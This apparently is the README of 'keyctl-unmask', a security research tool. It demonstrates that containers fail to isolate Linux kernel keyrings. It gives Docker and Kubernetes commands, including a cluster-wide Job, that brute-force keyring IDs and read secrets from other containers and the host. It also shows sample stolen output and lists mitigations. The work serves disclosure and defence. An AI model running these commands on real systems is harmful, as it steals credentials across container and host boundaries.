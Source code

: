 <div align="center">

![fuck-florida](/example/keymask.png)

</div>

# Keyctl-unmask

This tool goes Florida on container keyring masks. It is a tool to demonstrate the ineffectivity that containers have on isolating Linux Kernel keyrings. 
go ru
See also [antitree/keyctl-unmask](https://hub.docker.com/repository/docker/antitree/keyctl-unmask) on Dockerhub



On part of the original fix for this was to simply "mask" `/proc/keys` so that `cat
/proc/keys` would return no results. 

**This tool Goes Florida on those masks.**

In reality, the mask just obfuscates the keys and you're free to 
issue syscalls to the kernel requesting any
keys you'd like. (Free as in Florida) 
So here we're:

* brute forcing an `int32` to guess the keyring ID's 
* asking the Linux kernel for information about the keyring, 
* if they're found try to "Possess" them and subsequently read the keys of other containers
* ... and even worse, the host

Let me be clear, there is an easy solution to this problem (seccomp, user
namespaces, compile time restrictions) and it's been known for years, but just
like Florida's mask policy, we've decided that we don't need these things all
the time because we need developers to have the freedom to develop without the
hindrence of security.

The most damaging scenario that I know of today for using this tool is 
if you were crazy enough to deploy Kerberos into Kubernetes and configure
it to use the KEYCTL credential storage. 

From within a container simply running `keyctl-unmask` will run like this:

![docker demo](/example/docker_demo.gif)

~~~bash
Search for Linux kernel keyrings even if /proc/keys are masked in a container
Usage: 

        keyctl-unmask -min 0 -max 999999999 

        keyctl-unmask -hunt

        keyctl-unmask -d

  -d    Log everything to stdout (cloud logging not supported)
  -hunt
        Enable brute force mode to search for key ids (default true)
  -key int
        Specific key ID to test (int32)
  -max int
        Max key id range (default 999999999)
  -min int
        Minimum key id range (default 1)
  -output string
        Output path (default "./keyctl_ids")
  -q    Quiet mode to disable logging and progress bar

~~~

## Example in Docker

In one container, create a new key representing a secret stored by a container:

~~~shell
docker run --name secret-server -it --security-opt \
    seccomp=unconfined antitree/keyctl-unmask /bin/bash 

> keyctl add user antitrees_secret thetruthisiliketrees @s
911117332
> keyctl show
Session Keyring
 899321446 --alswrv      0     0  keyring: _ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852
 911117332 --alswrv      0     0   \_ user: antitrees_secret
~~~

Start a separate container and attach a shell so we can test some things

~~~shell
docker run -it --name keyctl-attacker --security-opt seccomp=unconfined antitree/keyctl-unmask /bin/bash
root@keyctl-attacker:/# keyctl-unmask -min 0 -max 999999999
10 / 10 [----------------------------------------------------------------------------] 100.00% ? p/s 0s
Output saved to:  ./keyctl_ids
root@keyctl-attacker:/# cat keyctl_ids 
~~~

~~~json
{
 "KeyId": 899321446,
 "Valid": true,
 "Name": "_ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852",
 "Type": "keyring",
 "Uid": "0",
 "Gid": "0",
 "Perms": "3f1b0000",
 "String_Content": "\u0014\ufffdN6",
 "Byte_Content": "FIxONg==",
 "Comments": null,
 "Subkeys": [
  {
   "KeyId": 911117332,
   "Valid": true,
   "Name": "antitrees_secret",
   "Type": "user",
   "Uid": "0",
   "Gid": "0",
   "Perms": "3f010000",
   "String_Content": "thetruthisiliketrees",
   "Byte_Content": "dGhldHJ1dGhpc2lsaWtldHJlZXM=",
   "Comments": null,
   "Subkeys": null
  }
 ]
~~~


## Usage In Kubernetes

Most Kubernetes clusters have the "benefit" of running without seccomp enabled so
you can it like so:

```shell
kubectl run --rm -i \
      -t keyctl-unmask --image=keyctl-unmask \
      --image-pull-policy=Never --restart=Never \
      -- keyctl-unmask -hunt  
```

### Kubernetes One Off Pod With Progress Bar

The following one liner will start a hunt into the kubernetes cluster and 
return the results with the progress bar in a clean way. 

~~~shell
kubectl run whatever --rm -it --generator=Pod --image-pull-policy=Never \
      --restart=Never --image=antitree/keyctl-unmask \
      --overrides="$(cat example/k8s/keyctl-unmask-run.json)"
~~~

## Kubernetes All Nodes

Deploying as a Job will run this on each node in the cluster to let you figure out 
if any cluster has interesting things within each Node. This creates a PVC to store
the results of trying to extract each Node's keyrings. 

```bash
keyctl apply -f examples/k8s/keyctl-unmask-job.yaml
```

Attach to the debug Pod to read the results:

```bash
kubectl exec -it -n test keyctl-unmask-debug-pod -- /bin/bash
> cat /keyctl-output/$NODE_NAME
{
 "KeyId": 899321446,
 "Valid": true,
 "Name": "_ses.95f119ce25274b852fc62369089dcb4fbe15678e62eecfdc685d292e6a01f852",
 "Type": "keyring",
...
```


## Pre-Emptive Responses To Potential Questions/Comments

**What's you're deal with Florida?**
IDK, just not feeling like a fan lately.

**Yeah but the Docker seccomp profile takes care of this.**

First, yes seccomp-bpf is a powerful tool and we should all use it for our containers but in the case of Docker, it's considered
a nice-to-have (not to mention difficult to use at scale). Because it's not a primary security control, and because there's no way 
to validate whether a seccomp profile is effective at runtime (see my other talks), we can't rely on it. It's a bolt on fix for the
real issue. 

**We should just enable user namespacing and this would be solved**

If you say that all you have to do is enable user namespacing, I'd say "You're right!" and "No one does" and "It's not the default for Docker"
Lets not say that user namespacing is a solution when enabling it breaks so many other things. 

**Everyone knows about this issue, this isn't new**

That this isn't new is mostly true in that it's been discussed since 2014 but it's been considered generally fixed since 
we added masks to `/proc/keys` and fixed it via seccomp. 

**No one uses keyrings**

That seems to be true for many things but I think it's interesting that the technology is completely incompatible with
containers in that every container can access any other container's keyrings including the hosts. 

**Fine well what do you want someone to do about it?**

1. Ensure that your container runtimes have support for namespaced keyrings: [It's possible](https://lwn.net/Articles/779895/), if anyone cares.
2. Make some of the protections that seccomp provides like blocking `KEYCTL` syscalls completely a compiled in security control .
3. Make seccomp usable in our runtimes. (See separate rant)

## Known Issues

* In minikube (and likely other non-standard linux OS's) the `get_persistent` keyctl SYSCALL isn't supported. From minikube host for example: `keyctl get_persistent @s -1`
